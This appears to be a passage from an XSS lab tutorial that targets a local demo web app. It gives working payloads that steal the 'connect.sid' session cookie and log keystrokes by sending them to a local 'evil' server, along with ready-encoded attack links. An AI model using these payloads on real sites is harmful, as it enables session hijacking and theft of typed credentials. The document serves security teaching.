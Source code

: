 ![](screenshots/xss-screenshot-002.png)

Notice how there is a cookie named "connect.sid". This is a session cookie set by our local web server. Is it possible for us to access this via the XSS vulnerability? Let's try. Repeat the steps from the "Proof of Concept" section above, but with the following code:
```html
<img src%3D"does-not-exist" onerror%3D"prompt(%27xss by trkn%27,document.cookie)">
```
Encode the above HTML and use it as the search query, or [try this link](http://localhost:3000/?q=%3Cimg%20src%3D%22does-not-exist%22%20onerror%3D%22prompt(%27xss%20by%20trkn%27,document.cookie)%22%3E).

If successful, you should see the contents of the session cookie printed in an alert pop-up.

Now before continuing, we will need to start our "evil" web server. Run the following command in a second terminal window:
```bash
node evil-server.js
```

And now try to use the following code with the XSS vulnerability to steal the session cookie:
```html
<img src="does-not-exist" onerror="var img = document.createElement(\'img\'); img.src = \'http://localhost:3001/cookie?data=\' + document.cookie; document.querySelector(\'body\').appendChild(img);">
```
Encode the above HTML and use it as the search query, or [try this link](http://localhost:3000/?q=%3Cimg%20src%3D%22does-not-exist%22%20onerror%3D%22var%20img%20%3D%20document.createElement(%27img%27)%3B%20img.src%20%3D%20%27http%3A%2F%2Flocalhost%3A3001%2Fcookie%3Fdata%3D%27%20%2B%20document.cookie%3B%20document.querySelector(%27body%27).appendChild(img)%3B%22%3E).

Check the terminal window of the evil server. Do you see the contents of the session cookie?

Fun times!

Here's the JavaScript code from the last example in a readable form:
```js
var img = document.createElement('img');
img.src = 'http://localhost:3001/cookie?data=' + document.cookie;
document.querySelector('body').appendChild(img);
```

Now let's get even more nasty. Let's try a key-logger:
```html
<img src="does-not-exist" onerror="var timeout; var buffer = \'\'; document.querySelector(\'body\').addEventListener(\'keypress\', function(event) { if (event.which !== 0) { clearTimeout(timeout); buffer += String.fromCharCode(event.which); timeout = setTimeout(function() { var xhr = new XMLHttpRequest(); var uri = \'http://localhost:3001/keys?data=\' + encodeURIComponent(buffer); xhr.open(\'GET\', uri); xhr.send(); buffer = \'\'; }, 400); } });">
```
Encode the above HTML and use it as the search query, or [try this link](http://localhost:3000/?q=%3Cimg%20src%3D%22does-not-exist%22%20onerror%3D%22var%20timeout%3B%20var%20buffer%20%3D%20%27%27%3B%20document.querySelector(%27body%27).addEventListener(%27keypress%27%2C%20function(event)%20%7B%20if%20(event.which%20!%3D%3D%200)%20%7B%20clearTimeout(timeout)%3B%20buffer%20%2B%3D%20String.fromCharCode(event.which)%3B%20timeout%20%3D%20setTimeout(function()%20%7B%20var%20xhr%20%3D%20new%20XMLHttpRequest()%3B%20var%20uri%20%3D%20%27http%3A%2F%2Flocalhost%3A3001%2Fkeys%3Fdata%3D%27%20%2B%20encodeURIComponent(buffer)%3B%20xhr.open(%27GET%27%2C%20uri)%3B%20xhr.send()%3B%20buffer%20%3D%20%27%27%3B%20%7D%2C%20400)%3B%20%7D%20%7D)%3B%22%3E).

